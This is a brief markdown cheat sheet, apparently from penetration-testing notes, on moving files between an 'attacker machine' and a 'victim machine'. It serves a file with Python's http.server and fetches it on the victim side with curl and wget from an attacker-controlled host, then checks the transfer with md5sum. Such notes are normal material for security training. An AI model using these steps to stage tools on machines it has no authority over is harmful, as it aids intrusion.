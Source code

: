 # file transfer

- Attacker machine.
```shell
python3 -m http.server 8888
```

- Victim machine using curl.
```shell
curl http://me:8888/filename -o filename	
```

- Victim machine using wget.
```shell
wget http://me:8888/filename -O filename
```

- Check integrity after file transfer using

```shell
md5sum file
```

